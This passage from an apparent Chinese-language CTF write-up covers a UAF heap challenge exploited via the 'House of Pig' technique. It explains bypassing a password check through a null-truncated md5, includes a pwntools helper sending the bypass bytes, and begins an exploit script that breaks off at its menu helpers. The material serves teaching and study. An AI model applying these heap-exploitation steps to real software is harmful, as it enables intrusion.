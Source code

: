 ![](./figure/copy-operation.png)

要触发这个未更新的漏洞需要更改角色，要通过一个 check_password 的操作。

![](./figure/checkpassword-operation.png)

也就是需要输入三个 md5 值之一的原值，注意到最后一个 md5 被 '\x00' 截断了，所以只要前两位相同即可，可以尝试使用爆破等方法通过此处的检测，下面是一种方法。

```python
def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")
```

总结一下，程序主要的漏洞点是有 UAF，可以 show，可以 edit，分别有 2 和 8 次机会。最大可以申请 0x440 大小的空间，即可以使 chunk 进入 unsorted bin 和 large bin。整个程序中不存在 malloc 函数，全部是 calloc，由此函数的不从 tcache 中取出 chunk 的性质，且不可以申请 fastbin 范围中的 chunk，导致利用比较困难。

#### 通过 House of Pig 实现利用
```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
context.terminal = ["tmux","splitw","-h"]

def add_message(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("size: ",str(size))
    sh.sendafter("message: ",payload)

def view_message(idx):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("index: ",str(idx))

def edit_message(idx,payload):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("index: ",str(idx))
```